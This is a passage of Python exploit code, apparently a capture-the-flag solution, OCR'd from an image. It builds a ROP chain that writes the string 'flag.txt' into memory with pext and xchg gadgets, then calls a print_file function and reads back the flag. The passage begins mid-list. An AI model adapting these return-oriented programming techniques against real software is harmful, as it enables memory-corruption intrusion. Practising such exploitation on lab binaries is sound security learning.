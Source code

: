 ```python
        pop_ebp_gadget,
        ebp_mask_for_dot,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_5,
        xchg_ecx_dl,

        # insert the "t"
        pop_ebp_gadget,
        ebp_mask_for_t,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_6,
        xchg_ecx_dl,

        # insert the "x"
        pop_ebp_gadget,
        ebp_mask_for_x,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_7,
        xchg_ecx_dl,

        # insert the "t"
        pop_ebp_gadget,
        ebp_mask_for_t,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_8,
        xchg_ecx_dl,


        # open "flag.txt"
        print_file_fxn_addr,                # address of print_file function, which works like "cat"...
                                            # opens file that you pass to it as an argument

        b"cccc",                            # fake ebp

        data_header_address                 # address of "flag.txt", which acts as our argument to the 
                                            # print_file function
        ]

payload = b"".join(payload)

p.send(payload)

p.recvline()
flag = p.recvline()
flag = flag.decode('UTF-8')
print("flag is: " , flag)
p.close()


```



